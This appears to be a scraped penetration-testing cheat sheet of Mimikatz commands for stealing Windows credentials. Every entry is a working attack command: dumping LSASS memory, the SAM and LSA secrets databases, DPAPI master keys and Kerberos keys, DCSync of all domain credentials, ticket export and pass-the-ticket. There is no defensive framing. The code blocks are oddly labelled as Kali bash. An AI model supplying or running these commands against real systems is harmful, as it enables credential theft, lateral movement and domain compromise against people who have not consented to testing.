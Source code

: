**#Dump and save LSASS in a file  
```bash - kali
sekurlsa::minidump c:\temp\lsass.dmp
```

**#List cached MasterKeys  
```bash - kali
sekurlsa::dpapi
```

**#List local Kerberos AES Keys  
```bash - kali
sekurlsa::ekeys
```

**#Dump SAM Database  
```bash - kali
lsadump::sam
```

**#Dump SECRETS Database  
```bash - kali
lsadump::secrets
```

**#Inject and dump the Domain Controller’s Credentials  
```bash - kali
mimikatz privilege::debug  
```

```bash - kali
mimikatz token::elevate  
```

```bash - kali
lsadump::lsa /inject
```

**#Dump the Domain’s Credentials without touching DC’s LSASS and also remotely  
```bash - kali
lsadump::dcsync /domain:$DOMAIN_NAME /all
```

**#List and Dump local kerberos credentials  
```bash - kali
kerberos::list /dump
```

**#Pass The Ticket  
```bash - kali
kerberos::ptt <PathToKirbiFile>
```

**#List TS/RDP sessions  
```bash - kali
ts::sessions
```

**#List Vault credentials  
```bash - kali
vault::list
```
